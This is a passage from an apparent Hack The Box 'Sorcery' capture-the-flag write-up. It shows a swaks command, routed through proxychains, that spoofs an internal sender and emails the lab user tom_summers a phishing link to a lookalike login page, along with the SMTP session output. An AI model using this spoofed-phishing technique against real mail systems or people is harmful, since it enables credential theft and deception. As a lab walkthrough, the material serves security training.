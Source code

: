 ![Mitmproxy](/assets/img/sorcery-htb-season8/sorcery-htb-season8_mitmproxy.png)

### Send Phishing Email
Now we need to send a phishing email to the victim. Our target will be `tom_summers@sorcery.htb`. <br>
> You can look back at the `Blog` section and see that in `Phising awareness` section.

```bash
└─$ proxychains -q swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.7 --port 1025 --data "Subject: Hello Tom\nHi Tom,\nPlease check this link: https://match.sorcery.htb/user/login\n"
=== Trying 172.19.0.7:1025...
=== Connected to 172.19.0.7.
<-  220 mailhog.example ESMTP MailHog
 -> EHLO kali
<-  250-Hello kali
<-  250-PIPELINING
<-  250 AUTH PLAIN
 -> MAIL FROM:<nicole_sullivan@sorcery.htb>
<-  250 Sender nicole_sullivan@sorcery.htb ok
 -> RCPT TO:<tom_summers@sorcery.htb>
<-  250 Recipient tom_summers@sorcery.htb ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Subject: Hello Tom
 -> Hi Tom,
 -> Please check this link: https://match.sorcery.htb/user/login
 -> 
 -> 
 -> .
<-  250 Ok: queued as kkJ_gqtjfr1i1sKVlOqnhHj4afaJIvbIHF_c6X1ZUvk=@mailhog.example
 -> QUIT
<-  221 Bye
```